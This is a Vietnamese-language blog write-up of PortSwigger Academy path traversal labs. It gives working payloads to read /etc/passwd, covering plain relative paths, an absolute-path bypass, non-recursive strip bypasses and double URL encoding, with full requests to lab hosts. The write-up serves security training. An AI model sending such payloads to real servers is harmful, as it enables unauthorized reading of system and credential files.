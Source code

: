 ```yaml
---
title: "[PortSwigger Lab] - Path Traversal"
description: Solution of Path Traversal on PortSwigger Lab
date: 2025-06-01 11:00:00 +0700
categories: [Cyber ​​Security, Web Pentest]
tags: [portswigger, burpsuite, labs, web, vulnerability, path traversal, directory traversal]   
pin: false
comments: true
image:
    path: https://raw.githubusercontent.com/waibui/blog-assets/refs/heads/main/imgs/posts/2025-06-01-portswigger-lab-path-traversal/path-traversal.png
    alt: Path Traversal
---
```


## Introduction
--- 

**Path traversal** còn được gọi là **Directory traversal**. Các lỗ hổng này cho phép kẻ tấn công đọc các tệp tùy ý trên máy chủ đang chạy một ứng dụng. Điều này có thể bao gồm:
- Application code and data.
- Credentials for back-end systems.
- Sensitive operating system files.

Trong một số trường hợp, kẻ tấn công có thể ghi vào các tệp tùy ý trên máy chủ, cho phép chúng sửa đổi dữ liệu hoặc hành vi ứng dụng và cuối cùng kiểm soát toàn bộ máy chủ.

## Solve Path Traversal Lab
---
- **Relative path:** `../../../etc/passwd`
- **Absolute path:** `/etc/passwd`
- **View images**: Filter settings > Filter bt MINE type > enable `images`
### Lab: File path traversal, simple case
- Mở 1 image bất kỳ
```
https://0af90002046a785a82be974700ff007e.web-security-academy.net/image?filename=8.jpg
```

- Thay đổi đường dẫn của image
```
https://0af90002046a785a82be974700ff007e.web-security-academy.net/image?filename=../../../etc/passwd
```

- Điều này khiến ứng dụng đọc từ đường dẫn tệp sau
```
/var/www/images/../../../etc/passwd
```

- Trình tự `../` có giá trị trong một **file path** và có nghĩa là để tăng một cấp trong cấu trúc thư mục. Ba chuỗi liên tiếp `..`:
    - Lần 1:
    ```
    /var/www/../../etc/passwd
    ```
    - Lần 2:
    ```
    /var/../etc/passwd
    ```
    - Lần 3:
    ```
    /etc/passwd
    ```

- Cuối cùng ứng dụng hiển thị nội dung của file `/etc/passwd`
- `/etc/passwd` là một tập tin hệ thống rất quan trọng trong các hệ điều hành **Unix**và **Linux**. Nó lưu trữ thông tin về user trên hệ thống. Dù tên là `"passwd" (password)`, nhưng mật khẩu thực tế không còn được lưu ở đây nữa mà được lưu trong tệp `/etc/shadow` với quyền truy cập hạn chế hơn.
- Truy cập **HTTP history** để xem nội dung

### File path traversal, traversal sequences blocked with absolute path bypass
- `../` đã bị block, cần bypass thông qua **absolute path**
- Mở 1 file ảnh bất kỳ trong tab mới
```
https://0a35004b0379e87d805eb796009c003b.web-security-academy.net/image?filename=33.jpg
```
- Thay đổi tên ảnh bằng **absolute path**: `/etc/passwd`
```
https://0a35004b0379e87d805eb796009c003b.web-security-academy.net/image?filename=/etc/passwd
```
- Truy cập **HTTP history** để xem nội dung

### File path traversal, traversal sequences stripped non-recursively
#### Analysis
Ở lab này, chương trình sẽ loại bỏ các **traversal sequences**, tức:
```
../../../etc/passwd
```
Sẽ trở thành
```
etc/passwd
```
Chương trình sẽ xóa tất cả `../` ra khỏi chuỗi

#### Exploit
Ý tưởng: vẫn để chương trình loại bỏ `../`, nhưng vẫn giữ được đường dẫn tương đối đến `/etc/passwd`
- Payload 1: ..././..././..././etc/passwd
- Payload 2: ....//....//....//etc/passwd
- Payload 3: ....\/....\/....\/etc/passwd

Sau khi chương trình đã loại bỏ `../` hoặc `..\` thì mọi thứ đểù trở thành `../../../etc/passwd`
> **Windows** sử dụng cả `../` và `..\`
{: .prompt-info}

- Thay đổi đường dẫn hình ảnh sử dụng các payload trên.
- Truy cập **HTTP history** để xem nội dung

### Lab: File path traversal, traversal sequences stripped with superfluous URL-decode
#### Analysis
- Để giải quyết lab này, cần phải **encode url** 2 lần
- Mốt số trường hợp webserver decode 1 lần và kiểm tra `../` có tồn tại không để thực hiện logic khác
- Sau khi decode 1 lần, request được gửi đến **Backend** để xử lý, và **Path traversal** xảy ra
#### Exploit
- Gửi request đến **Repeater**, thay đổi đường dẫn
```http
GET /image?filename=../../../etc/passwd HTTP/2
Host: 0a24006d03b4e0b48025dad200d800f9.web-security-academy.net
```

- Bôi đen `../../../`, tại tab **Inspector**, phần **Decoded from** chon ký hiệu `+`
- Ở phần **Decoded from** vửa được tạo, click **select**, chọn **URL encoding**
- Tại đó, nhập lại `../../../`
- Copy nội dung phần **Selected text** và dán vào request
```http
GET /image?filename=..%252f..%252f..%252fetc/passwd HTTP/2
Host: 0a24006d03b4e0b48025dad200d800f9.web-security-academy.net
```

---
Goodluck! 🍀🍀🍀
